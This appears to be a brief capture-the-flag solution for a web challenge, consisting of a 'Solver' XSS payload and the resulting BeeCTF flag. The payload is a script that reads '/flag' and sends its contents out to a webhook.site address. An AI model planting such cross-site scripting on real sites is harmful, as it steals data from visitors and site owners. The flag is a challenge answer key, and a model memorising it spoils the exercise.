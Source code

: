 Solver

<script>const call = async()=>{const res = await fetch('/flag');const flag = await res.text();await fetch('https://webhook.site/27d7ee4a-23e7-4cea-9526-c38dc5128278?flag='+flag)};call()</script>

FLAG :
BeeCTF{X55_l34d1ng_t0_55rf_5kgl1v773}
